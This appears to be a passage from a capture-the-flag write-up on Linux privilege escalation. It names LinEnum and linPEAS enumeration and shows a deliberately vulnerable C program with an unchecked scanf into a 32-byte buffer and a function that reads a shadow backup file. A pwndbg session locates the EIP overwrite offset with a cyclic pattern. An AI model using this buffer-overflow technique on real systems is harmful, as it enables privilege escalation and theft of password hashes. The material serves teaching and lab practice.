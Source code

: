 ## LinEnum

LinEnum is a bash script that searches for possible ways to escalate privileges.

I copied this and linPEAS over to the system in order to adequately perform enumeration.

linenum.log and linpeas.log have been provided in this write-ups folder

`/opt/secret/root`

## pwndbg

```c
#include "unistd.h"
#include "stdio.h"
#include "stdlib.h"
void shell(){
setuid(1000);
setgid(1000);
system("cat /var/backups/shadow.bak");
}

void get_input(){
char buffer[32];
scanf("%s",buffer);
}

int main(){
get_input();
}
```

We know that this program expects 32 characters of input and then immediately exits. 

```
pwndbg> r < <(cyclic 50)
Starting program: /opt/secret/root < <(cyclic 50)

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────
 EAX  0x1
 EBX  0x0
 ECX  0x1
 EDX  0xf775887c (_IO_stdfile_0_lock) ◂— 0
 EDI  0xf7757000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 ESI  0xf7757000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 EBP  0x6161616b ('kaaa')
 ESP  0xffa02410 ◂— 0xf700616d /* 'ma' */
 EIP  0x6161616c ('laaa')
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
Invalid address 0x6161616c










```
